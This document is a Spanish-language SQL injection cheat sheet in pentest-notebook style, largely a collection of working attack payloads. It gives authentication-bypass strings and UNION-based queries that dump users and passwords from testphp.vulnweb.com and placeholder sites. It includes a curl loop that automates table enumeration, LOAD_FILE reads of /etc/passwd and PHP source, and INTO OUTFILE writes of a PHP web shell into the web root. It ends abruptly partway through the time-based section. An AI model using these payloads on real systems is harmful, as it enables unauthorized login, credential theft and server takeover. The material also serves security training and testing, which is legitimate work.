







# SQL INJECTION

## Table of contents

- [SQL INJECTION](#sql-injection)
  - [DEFINICION](#definicion)
  - [POC](#poc)
    - [TIPOS DE SQLi](#tipos-de-sqli)
  - [SQLi ERROR BASED](#sqli-error-based)
  - [SQLi BOOLEAN BASED](#sqli-boolean-based)
    - [Recuperando datos ocultos](#recuperando-datos-ocultos)
  - [AUTHENTICATION BYPASS (SUBVERTING QUERY LOGIC)](#authentication-bypass-subverting-query-logic)
    - [Subvirtiendo la lógica de la aplicación](#subvirtiendo-la-lgica-de-la-aplicacin)
  - [SQLi UNION BASED](#sqli-union-based)
    - [Recuperar datos de otras tablas de bases de datos](#recuperar-datos-de-otras-tablas-de-bases-de-datos)
    - [Determinar el número de columnas necesarias en un ataque UNION de inyección SQL](#determinar-el-nmero-de-columnas-necesarias-en-un-ataque-union-de-inyeccin-sql)
    - [Encontrar columnas con un tipo de datos útil en un ataque UNION de inyección SQL](#encontrar-columnas-con-un-tipo-de-datos-til-en-un-ataque-union-de-inyeccin-sql)
    - [**NOTA**](#nota)
    - [ENUMERAR LAS BASES DE DATOS](#enumerar-las-bases-de-datos)
    - [ENCONTRAR TABLAS E INFORMACION INTERESANTE](#encontrar-tablas-e-informacion-interesante)
    - [Obtener las tablas](#obtener-las-tablas)
    - [Enumeracion de las columnas de una tabla especifica](#enumeracion-de-las-columnas-de-una-tabla-especifica)
  - [SQLi OUT-BAND](#sqli-out-band)
    - [READING FILES](#reading-files)
      - [DETECCION DEL USUARIO ACTUAL](#deteccion-del-usuario-actual)
      - [DETECCION DE PRIVILEGIOS DEL USUARIO ACTUAL](#deteccion-de-privilegios-del-usuario-actual)
      - [LEER ARCHIVOS](#leer-archivos)
        - [LEER ARCHIVOS PHP](#leer-archivos-php)
    - [WRITING FILES](#writing-files)
      - [DETERMINACION DE REQUERIMIENTOS](#determinacion-de-requerimientos)
      - [ESCRITURA DE ARCHIVOS](#escritura-de-archivos)
  - [SQLi TIME BASED](#sqli-time-based)
- [SQL INJECTION CHEATSHEET](#sql-injection-cheatsheet)
  - [SUBSTRING](#substring)
  - [COMENTARIOS](#comentarios)
  - [DATABASE VERSION](#database-version)
  - [DATABASE CONTENTS](#database-contents)
  - [TIPOS DE SQL INJECTION](#tipos-de-sql-injection)
    - [Cargas útiles de inyección de SQL genérico](#cargas-tiles-de-inyeccin-de-sql-genrico)
  - [INJECCION A CIEGAS](#injeccion-a-ciegas)
    - [Explotación de la inyección SQL ciega activando respuestas condicionales](#explotacin-de-la-inyeccin-sql-ciega-activando-respuestas-condicionales)
  - [Obteniendo el usuario y contraseña de acceso.](#obteniendo-el-usuario-y-contrasea-de-acceso)
  - [Ejecutar comandos sobre el sistema](#ejecutar-comandos-sobre-el-sistema)
    - [CHEATSHEET BLIND SQL INJECTION](#cheatsheet-blind-sql-injection)
  - [Filtros para bypassear WAF](#filtros-para-bypassear-waf)
  - [EVADIR FILTROS](#evadir-filtros)

## DEFINICION

La inyección SQL es una vulnerabilidad de seguridad web que permite a un atacante interferir con las consultas que una aplicación realiza a su base de datos. Por lo general, permite que un atacante vea datos que normalmente no puede recuperar. Esto puede incluir datos pertenecientes a otros usuarios o cualquier otro dato al que la propia aplicación pueda acceder. En muchos casos, un atacante puede modificar o eliminar estos datos, provocando cambios persistentes en el contenido o el comportamiento de la aplicación.

En algunas situaciones, un atacante puede escalar un ataque de inyección SQL para comprometer el servidor subyacente u otra infraestructura de back-end, o realizar un ataque de denegación de servicio.

## POC

Para verificar que una pagina o aplicacion sufre de SQL Injection se puede utilizar estos simples payloads para que la pagina o aplicacion muestre un error en la pantalla:

```sql
#ERROR BASED

'
%27
"
-1
%22
#
%23
;
%3B
)
Wildcard (*)
%%2727
%25%27
```

### TIPOS DE SQLi

- **SQL in Band:** El atacante utiliza el mismo canal de comunicación para lanzar sus ataques.
	- **SQLi error based:** el atacante realiza acciones que hacen que la base de datos genere mensajes de error.
	- **SQLi union based:** esta técnica aprovecha el operador UNION SQL, que fusiona varias declaraciones de selección generadas por la base de datos para obtener una única respuesta. (Dump DB)
- **Blind SQL:** El atacante envia cargas utiles pero no se ve respuesta en caso de causar errores.
	- **SQLi boolean based:** Según el resultado, la información dentro de la respuesta HTTP se modificará o permanecerá sin cambios.
	- **SQLi time based:** atacante envía una consulta SQL a la base de datos, lo que hace que la base de datos espere (durante un período de segundos) antes de que pueda reaccionar.
- **SQLi out Band:** El atacante solo puede llevar a cabo esta forma de ataque cuando ciertas funciones están habilitadas en el servidor de base de datos utilizado por la aplicación web. Subir o descargar archivos, spawnear una shell.

![[Pasted image 20221227152535.png]]

## SQLi ERROR BASED

```sql
#ERROR BASED

'
%27
"
-1
%22
#
%23
;
%3B
)
Wildcard (*)
%%2727
%25%27
```

## SQLi BOOLEAN BASED

### Recuperando datos ocultos

Imginemos que es una pagina de compras donde muestra su catalogo de venta por categorias y realiza la siguiente consulta:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

El parametro `released` indica que son productos ya en el mercado y podemos suponer que el valor `0` puede mostrar productos ineditos. El unico dato de entrada desde la pagina es **categoria**. Podemos mandar lo siguiente a catergoria:

```sql
?category=Gifts'--
```

Reemplaazndo esto es la consulta:

```sql
SELECT * FROM products WHERE category = 'Gifts'-- AND released = 1
```

Para comentar una linea en una consulta SQL depende del gestor de base de datos paro normalmente es con:

- **--**
- **-- -**
- **#**
- **\/\*QUERY\*\\**

Entonces en la consulta anterior estamos solicitando la categoria **gifts** pero estamos comentando la opcion de **AND released = 1** de modo que podemos ver los productos released o no.

Otro payload que tambien funciona:

```sql
Gifts'+OR+1=1--
```

dejando la consulta asi:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

La consulta modificada devolverá todos los elementos en los que la categoría sea gifts o 1 es igual a 1. Dado `1=1` que siempre es verdadera, la consulta devolverá todos los elementos.

## AUTHENTICATION BYPASS (SUBVERTING QUERY LOGIC)

Los siguientes payloads se utilizan comunmente cuando nos encontramos ante un login y queremos evadirlo, pueden ser colocados en el campo de usuario y/o contraseña.

Payloads:

```bash
#ingresar como admin
admin'-- -
admin' or 1=1-- - 

#ingresar como otro usuario
tom'-- -
tom' or 1=1-- -

#otros payloads
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
```

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

![[Pasted image 20221227153230.png]]

Ejemplo practico, inyeccion en el campo username para ingresar con el usuario id=5:

```bash
#payload
chris' or id=5)-- -
```

![[Pasted image 20221227153904.png]]

### Subvirtiendo la lógica de la aplicación

Supongamos un inicio de sesion donde se piden credenciales de usuario. (Usuario y Password) La consulta se realiza de la siguiente manera:

```sql
SELECT * FROM users WHERE username = 'chris' AND password = 'chris123'
```

Si la consulta devuelve los detalles de un usuario, entonces el inicio de sesión es exitoso. De lo contrario, se rechaza.

Se puede usar el siguiente payload:

```sql
administrator'--
```

Dejando la consulta de la siguiente manera.

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Esta consulta devuelve el usuario cuyo nombre de usuario es `administrator` (un usuario valido) y registra correctamente al atacante como ese usuario. Asi ya no es necesario conocer la contraseña pero debe existir ese usuario.

## SQLi UNION BASED

### Recuperar datos de otras tablas de bases de datos

En los casos en que los resultados de una consulta SQL se devuelven dentro de las respuestas de la aplicación, un atacante puede aprovechar una vulnerabilidad de inyección SQL para recuperar datos de otras tablas dentro de la base de datos. Esto se realiza mediante el uso de la sentencia `UNION` que le permite ejecutar una consulta `SELECT` adicional y agregar los resultados a la consulta original.

Por ejemplo:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen valores de columnas `a` y `b` en `table1 `y columnas `c` y `d` en `table2`.

supongamos que se ejecuta la siguiente consulta:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

se puede agregar ek siguiente payload:

```sql
' UNION SELECT username, password FROM users--
```

Esto hará que la aplicación devuelva todos los nombres de usuario y contraseñas junto con los nombres y descripciones de los productos.

Para que una consulta `UNION`  funcione, se deben cumplir dos requisitos clave:

-   Las consultas individuales deben devolver el mismo número de columnas.
-   Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Esto generalmente implica averiguar:

-   ¿Cuántas columnas se devuelven de la consulta original?
-   ¿Qué columnas devueltas de la consulta original son de un tipo de datos adecuado para contener los resultados de la consulta inyectada?

### Determinar el número de columnas necesarias en un ataque UNION de inyección SQL

Al realizar un ataque UNION de inyección SQL, existen dos métodos efectivos para determinar cuántas columnas se devuelven desde la consulta original.

**METODO 1**

El primer método implica inyectar una serie de cláusulas `ORDER BY` e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, suponiendo que el punto de inyección es una cadena entre comillas dentro de la cláusula `WHERE` de la consulta original, debe enviar:

```sql
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
etc.

o 

' ORDER BY 1--  
' ORDER BY 1,2--  
' ORDER BY 1,2,3--  
etc
```

Esta serie de cargas útiles modifica la consulta original para ordenar los resultados por diferentes columnas en el conjunto de resultados. La columna de una cláusula `ORDER BY` se puede especificar mediante su índice, por lo que no es necesario conocer los nombres de ninguna columna. Cuando el índice de columna especificado excede el número de columnas reales en el conjunto de resultados, la base de datos devuelve un error, como:

```sql
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

La aplicación puede devolver el error de la base de datos en su respuesta HTTP, o puede devolver un error genérico o simplemente no devolver ningún resultado. Siempre que pueda detectar alguna diferencia en la respuesta de la aplicación, puede inferir cuántas columnas se devuelven desde la consulta.

El momento que no devuelva un error habremos descubierto el numero de columnas.

**METODO 2**

El segundo método implica enviar una serie de cargas útiles `UNION SELECT` que especifican un número diferente de valores nulos:

```SQL
'+UNION+SELECT+NULL--  
'+UNION+SELECT+NULL,NULL--  
'+UNION+SELECT+NULL,NULL,NULL--  
```

Si el número de nulos no coincide con el número de columnas, la base de datos devuelve un error, como por ejemplo:

```sql
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

>[!note]
>En bases de datos oracle tenemos que hacer referencia a una base de datos que viene por defecto para que este funcione: `' union select null from dual--'`

### Encontrar columnas con un tipo de datos útil en un ataque UNION de inyección SQL

Después de haber determinado el número de columnas requeridas, puede sondear cada columna para probar si puede contener datos de **cadena** enviando una serie de `UNION SELECT` cargas útiles que colocan un valor de cadena en cada columna a su vez. Por ejemplo, si la consulta devuelve cuatro columnas, debe enviar:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--
```

### **NOTA**

Si la inyeccion es en la URL se puede usar `+` para concatenar el payload:

```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2,3,4,5-- -
```

Si el tipo de datos de una columna no es compatible con los datos de la cadena, la consulta inyectada provocará un error en la base de datos, como:

```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

### ENUMERAR LAS BASES DE DATOS

MySQL:

```bash
' UNION SELECT NULL,SCHEMA_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

### ENCONTRAR TABLAS E INFORMACION INTERESANTE

Ya sabemos como encontrar las columnas de una tabla, supongamos que encontramos que la tabla tiene 3 columnas:

```sql
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1 		# muestra error
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2		# muestra error
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2,3	# no muestra nada
```

Con el parametro `-` en el ID hacemos que nos refleje en el lado del cliente la respuesta de la query. Así que hay que marcar que nos refleje todas las columnas con el parámetro **(-)**. Ahora queremos que nos refleje un poco de informacion de la base de datos como:

- Version del DBMS
- Nombre de la base de datos
- Usuario actual de la base de datos.
- Leer algun fichero del servidor.

Las formas de obtener estos datos dependera del gestor de base de datos por la sintaxis:

```sql
#en mysql

@@user 						# usuario de la DB
select_file('/etc/passwd') 	# leer contenido de un archivo
version()					# obtener la version de la DBMS			
database()					# obtener el nombre de la base de datos
```

Estos valores lo podemos inyectar en los campos de las columnas de la tabla que descubrimos. Puede que no en todos devuelva pero eso hay que ir probando:

```http
http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,version(),@@user

http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,database()

```

### Obtener las tablas

Ya tenemos el nombre de la base de datos con la funcion **database()**.

Para obtener las tablas se deben agregar tres parámetros importantes **table_name**, **information_schema.table** y **limit** con esos parámetros podemos saber el nombre de las tablas en este caso iremos enumerando una a una en las columnas que se reflejan.

Para este caso **supongamos que existen 8 tablas** y **obviamente nosotros no lo sabemos** así que tocara enumerar una a una.

```http
http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,table_name,3+from+information_schema.tables+where+table_schema=database()+limit+0,1
```

o

```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,table_name,3+from+information_schema.tables+limit+0,1-- -
```

Para descubrir cuantas tablas existen tenemos que ir jugando con el `limit`:

```http
#Tabla 1:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1

#Tabla 2: 
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1

Tabla 3:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1

...etc.
```

Dijimos que existian 8 tablas pero como no lo sabemos iremos propando y probando y cuando se realiza la siguiente consulta:

```sql
Tabla 9:
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 9,1
```

No nos mostrara ningun resultado y es ahi donde sabemos que ya no hay mas tablas.

Podemos automatizar este proceso con un script en bash:

```bash
for i in $(seq 1 200); do
    echo -n "Para el número $i: "
    curl --silent "http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,table_name,3,4,5+from+information_schema.tables+limit+$i,1--%20-"
done
```

De ahi podemos ir filtrado con grep lo que nos interese.

#### Obtener las tablas - Postgres

```bash
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

#### Obtener las tablas - Oracle

```bash
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

### Enumeracion de las columnas de una tabla especifica

Una vez localizada la tabla que nos interese (para este caso, la tabla **usuarios**), enumeramos las columnas existentes para dicha tabla en la base de datos.

Para esto usaremos group_concat():

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
```

A veces tenemos que convertir el nombre de la tabla de `string` a `ASCII`:

```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_name=char(117,115,117,97,114,105,111,115)-- -

# OUTPUT

IDUSUARIO,IDEMPRESA,USUARIO,PASSWORD,NOMBRE,ADMINISTRADOR
```

```bash
u -> 117
s -> 115
u -> 117
a -> 97
r -> 114
i -> 105
o -> 111
s -> 115
```

Y esto nos devolverá las columnas dentro de la tabla **users**. Lo que (**group_concat(column_name)**) es concadenar todas las columnas, y (**where table_name='users'**) es sacar las columnas dentro de la tabla **users**. Y ahora si queremos sacar las columnas dentro de una tabla simplemente en el apartado (**table_name=''**) **dentro de las comillas pondremos el nombre de la tabla.**

Una vez sabiendo los nombres de las columnas, aprovechamos la funcionalidad `group_concat` para concatenar todas las columnas cuyos datos queramos visualizar:

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(name),3 from users

http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(usuario,':',password),3,4,5+from+usuarios--%20-

http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(usuario,0x3a,password),3,4,5+from+usuarios--%20-
```

`0x3a` en hexadecimal es `:`, se hace asi porque a veces los caracteres **\'SEPARATOR\'** o **\"SEPARATOR\"** pueden dar un error.

Puedes intentar concatenar tambien asi:

```sql
select table_name||':'||column_name from all_tab_columns
select table_name+':'+column_name from information_schema.columns
select concat(table_name,':',column_name) from information_schema.columns
```

A veces la concatenacion no funciona debido a la sintaxis del DBMS, entonces supongamos que la base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Puedes poner directamente:

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,username,password from users
```

#### ENUMERACION DE COLUMNAS - Postgres

```bash
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```

#### ENUMERACION DE COLUMNAS - Oracle

```bash
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```

## SQLi OUT-BAND

### READING FILES

La lectura de datos es mucho más común que la escritura de datos, que está estrictamente reservada para usuarios privilegiados en los DBMS modernos, ya que puede conducir a la explotación del sistema. En **MySQL** debemos tener el privilegio **FILE** para cargar el contenido de un archivo en una tabla y luego volcar los datos de esa tabla y leer los archivos.

#### DETECCION DEL USUARIO ACTUAL

Primero, tenemos que determinar qué usuario somos dentro de la base de datos. Si bien no necesitamos necesariamente privilegios de administrador de base de datos (DBA) para leer datos, esto es cada vez más necesario en los DBMS modernos, ya que solo los DBA tienen dichos privilegios.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

o a traves de un ataque de union:

```sql
' UNION SELECT 1, user(), 3, 4-- -
' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![[Pasted image 20221227160148.png]]

#### DETECCION DE PRIVILEGIOS DEL USUARIO ACTUAL

Ahora que conocemos a nuestro usuario, podemos comenzar a buscar qué privilegios tenemos con ese usuario. En primer lugar, podemos probar si tenemos privilegios de superadministrador con la siguiente consulta:

```sql
SELECT super_priv FROM mysql.user

#union
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si la consulta devuelve `Y` (lo que significa que `YES`) indica privilegios de superusuario.

![[Pasted image 20221227160300.png]]

También podemos volcar otros privilegios que tengamos directamente desde el esquema, con la siguiente consulta:

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

![[Pasted image 20221227160352.png]]

#### LEER ARCHIVOS

Ahora que sabemos que tenemos suficientes privilegios para leer los archivos del sistema local, hagámoslo usando la función `LOAD_FILE()`. La función [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) se puede usar en MariaDB / MySQL para leer datos de archivos. La función toma solo un argumento, que es el nombre del archivo.

```sql
SELECT LOAD_FILE('/etc/passwd');

' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

![[Pasted image 20221227160539.png]]

##### LEER ARCHIVOS PHP

La raíz web predeterminada de Apache es `/var/www/html`. Intentemos leer el código fuente del archivo en `/var/www/html/search.php`.

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

![[Pasted image 20221227160627.png]]

Sin embargo, la página termina mostrando el código HTML dentro del navegador. La fuente HTML se puede ver presionando `[Ctrl + U]`.

![[Pasted image 20221227160640.png]]

El código fuente nos muestra el código PHP completo, que podría inspeccionarse más a fondo para encontrar información confidencial, como credenciales de conexión a la base de datos, o encontrar más vulnerabilidades.

### WRITING FILES

Cuando se trata de escribir archivos en el servidor back-end, se vuelve mucho más restringido en los DBMS modernos, ya que podemos utilizar esto para escribir un shell web en el servidor remoto, por lo tanto, obtener la ejecución del código y hacerse cargo del servidor. Esta es la razón por la que los DBMS modernos deshabilitan la escritura de archivos de forma predeterminada y requieren ciertos privilegios para que los DBA escriban archivos.

#### DETERMINACION DE REQUERIMIENTOS

Para poder escribir archivos en el servidor back-end **usando una base de datos MySQL**, necesitamos tres cosas:

1.  Usuario con el privilegio `FILE` habilitado.

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

2.  La variable global `secure_file_priv` de MySQL **no habilitada**.

La variable [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) se usa para determinar desde dónde leer/escribir archivos. Un valor vacío nos permite leer archivos de todo el sistema de archivos. De lo contrario, si se establece un determinado directorio, solo podemos leer desde la carpeta especificada por la variable. Por otro lado, `NULL` significa que no podemos leer/escribir desde ningún directorio.

- **MariaDB** tiene esta variable configurada en vacío de forma predeterminada, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el privilegio `FILE`. 
- **MySQL** se utiliza `/var/lib/mysql-files` como carpeta predeterminada. Esto significa que la lectura de archivos a través de una inyección `MySQL` no es posible con la configuración predeterminada. Peor aún, algunas configuraciones modernas están predeterminadas en `NULL`, lo que significa que no podemos leer/escribir archivos en ningún lugar dentro del sistema.

Dentro de MySQL podemos comprobar el valor de esta variable asi:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';

#union
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[Pasted image 20221227161929.png]]

Y el resultado muestra que el valor `secure_file_priv` está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación.

3.  Acceso de escritura a la ubicación en la que queremos escribir en el servidor back-end.

#### ESCRITURA DE ARCHIVOS

La declaración [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) se puede usar para escribir datos de consultas seleccionadas en archivos. Esto generalmente se usa para exportar datos de tablas.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Si vamos al servidor back-end y hacemos `cat` al archivo, vemos el contenido de esa tabla:

```bash
cat /tmp/credentials 

#output
1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible crear cadenas directamente en los archivos con `SELECT`, lo que nos permite escribir archivos arbitrarios en el servidor de back-end.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```bash
cat /tmp/test.txt 

#output
this is a test

ls -la /tmp/test.txt 

#output - lo creo el usuario mysql
-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

entonces podemos escribir una webshell para obtener acceso al servidor:

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

' union select "",'<?php system($_GET_['cmd']); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

![[Pasted image 20221227162447.png]]

>[!note]
>Sabemos que el directorio raíz web es /var/www/html/ . Sin embargo, esto no siempre será así. Dado que podemos leer los archivos del sistema, podríamos enumerar el  archivo /etc/apache2/apache2.conf  para encontrar el directorio raíz web para alojar potencialmente nuestro shell web con una consulta como: `' UNION SELECT NULL,LOAD_FILE("/etc/apache2/ apache2.conf"),NULL,NULL,NULL-- -` .

## SQLi TIME BASED

Segun el DBMS asi es como podemos testear:

|DATABASE|SINTAX|
|:-----:|:-----:|
|Oracle |	dbms_pipe.receive_message(('a'),10)|
|Microsoft |	WAITFOR DELAY '0:0:10'|
|PostgreSQL |	pg_sleep(10)|
|MySQL |	SELECT sleep(10)|

podemos tstear los siguientes payload basados en tiempo con condicional:

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
